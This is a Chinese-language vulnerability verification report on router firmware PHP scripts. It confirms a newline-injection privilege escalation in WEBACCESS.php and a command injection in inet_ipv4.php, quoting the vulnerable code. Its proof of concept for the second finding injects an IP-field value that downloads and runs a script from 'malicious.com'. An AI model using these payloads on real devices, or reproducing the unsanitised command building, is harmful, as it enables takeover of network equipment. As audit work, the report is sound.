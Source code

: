 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `Medium`
- **详细原因：** 安全警报准确描述了漏洞。证据来自 WEBACCESS.php 代码分析：setup_wfa_account 函数使用 query('username') 获取用户名，未过滤换行符，直接写入文件 '/var/run/storage_account_root' 格式为 'username:x...\n'。攻击者模型是已认证的非root用户通过web接口修改账户配置。输入可控（用户名由用户提供），路径可达（当webaccess启用且配置更改时函数执行），实际影响是注入高权限账户（如 'admin'）导致权限提升。完整攻击链：1) 攻击者登录web接口（已认证）；2) 创建或修改用户账户，设置用户名为恶意字符串（如 'attacker\nadmin'）；3) 触发配置更新（如保存更改），setup_wfa_account 函数执行；4) fwrite 写入文件，换行符注入新条目 'admin:x...'；5) 攻击者使用注入的 'admin' 账户登录提升权限。漏洞可利用，但风险为Medium，因攻击者需已认证访问。

## 验证指标

- **验证时长：** 273.30 秒
- **Token 使用量：** 374648

---

## 原始信息

- **文件/目录路径：** `etc/services/INET/inet_ipv4.php`
- **位置：** `inet_ipv4.php:inet_ipv4_static 函数（大约行30-50）`
- **描述：** 在 inet_ipv4_static 函数中，$ipaddr、$mask、$gw、$mtu 和 $dns 变量（来自NVRAM查询）被直接插入到 phpsh 命令中。攻击者可修改静态IP配置字段（如IP地址），注入命令分隔符（如分号）执行任意命令。触发条件：攻击者修改静态网络设置后，接口重新配置。利用方式：通过配置界面设置恶意IP地址（如 '1.1.1.1; malicious_command'）。
- **代码片段：**
  ```
  $ipaddr = query("ipaddr");
  $mask = query("mask");
  $gw = query("gateway");
  ...
  startcmd("phpsh /etc/scripts/IPV4.INET.php ACTION=ATTACH STATIC=1 INF=".$inf." DEVNAM=".$ifname." IPADDR=".$ipaddr." MASK=".$mask." GATEWAY=".$gw." MTU=".$mtu.' "DNS='.$dns.'"\n'.$event_add_WANPORTLINKUP );
  ```
- **备注：** phpsh 可能对参数进行部分处理，但直接字符串连接仍存在风险。需要验证 IPV4.INET.php 的输入处理。关联文件：/htdocs/phplib/xnode.php。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。在 inet_ipv4_static 函数中，变量 $ipaddr、$mask、$gw、$mtu 和 $dns 从 NVRAM 查询后直接插入到 phpsh 命令字符串中（startcmd('phpsh /etc/scripts/IPV4.INET.php ... IPADDR='.$ipaddr.' ...')）。IPV4.INET.php 脚本将这些参数通过 $_GLOBALS 获取并直接用于构建 shell 命令（如 echo 'ip addr add '.$_GLOBALS['IPADDR'].'...'），没有输入验证或转义。攻击者模型：已通过身份验证的用户（通过 Web 界面修改网络设置）可控制这些输入。路径可达：当用户修改静态 IP 配置并应用时，接口重新配置会触发 inet_ipv4_static 函数执行。实际影响：攻击者可注入命令分隔符（如分号）执行任意命令，导致系统完全妥协。PoC：攻击者登录 Web 界面，在 IP 地址字段输入 '192.168.1.100; wget http://malicious.com/script.sh -O /tmp/script.sh && sh /tmp/script.sh'，应用设置后触发命令执行。

## 验证指标

